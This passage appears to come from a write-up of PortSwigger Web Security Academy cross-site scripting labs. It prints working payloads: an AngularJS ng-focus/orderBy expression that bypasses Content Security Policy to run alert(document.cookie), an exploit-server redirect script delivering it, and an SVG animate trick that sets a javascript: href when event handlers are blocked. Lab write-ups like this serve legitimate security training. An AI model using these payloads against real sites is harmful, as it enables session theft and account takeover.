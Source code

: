 ```
https://LABID.web-security-academy.net/?search=%3Cinput+id%3Dx+ng-focus%3D%24event.composedPath%28%29%7CorderBy%3A%27%28z%3Dalert%29%281%29%27%3E#x
```

Note that we used \#x to make sure that it focuses on the input tag automatically. 

Next we can just put it in script tags and send it via exploit server

```html
<script>
location='https://0a6d006e049eef7b81879d990038001c.web-security-academy.net/?search=%3Cinput+id%3Dx+ng-focus%3D%24event.composedPath%28%29%7CorderBy%3A%27%28z%3Dalert%29%28document.cookie%29%27%3E#x'
</script>
```

Understanding the payload:

Content Security Policy is a browser feature for restricting how code runs on browser. 
This payload uses the `ng-focus` directive to execute when the input field is focused, passing `$event.composedPath()` to the `orderBy` filter. The filter argument `'(z=alert)(document.cookie)'` is parsed by Angular as an expression that assigns `alert` to `z` and then immediately calls `z(document.cookie)`, effectively executing `alert(document.cookie)`. Since this code runs entirely within Angular's expression context and avoids inline scripts, `eval`, or quoted strings, it successfully bypasses standard Content Security Policy (CSP) restrictions.

### 27. Reflected XSS with event handlers and `href` attributes blocked

Payload that worked:

```html
<svg><a><animate attributeName="href" values="javascript:alert(1)"></animate><text x="20" y="20">click me</text></a> 
```

![](/assets/images/XSS/Pasted%20image%2020250728000421.png)

Methodology and explanation:

Step one was to create a clickable text element. As per the lab description, it seems like there is an automated script that will execute and try to click on elements with text "click me". We know that \<a\> tags are allowed. We can try to put a bunch of different tags and see which ones are valid in the search box, either manually or using intruder. I found that the svg tag was allowed. Using \<svg\> and \<a\> together to make a clickable link didn't work. 

```html
<svg><a>click me</a>
```

A quick google search showed that text tags must be used to put text in the svg tag. 

```html
<svg><a><text x="20" y="20">click me</text></a>
```

Now that we have a clickable text link, we need to execute our payload. `href` attributes are blocked otherwise `href=javascript:alert(1)` would have worked like it had in this lab -`5. DOM XSS in jQuery anchor `href` attribute sink using location.search source`. We need to find which other tags are allowed. Manually checking or using intruder shows that `animate` tag is allowed too.
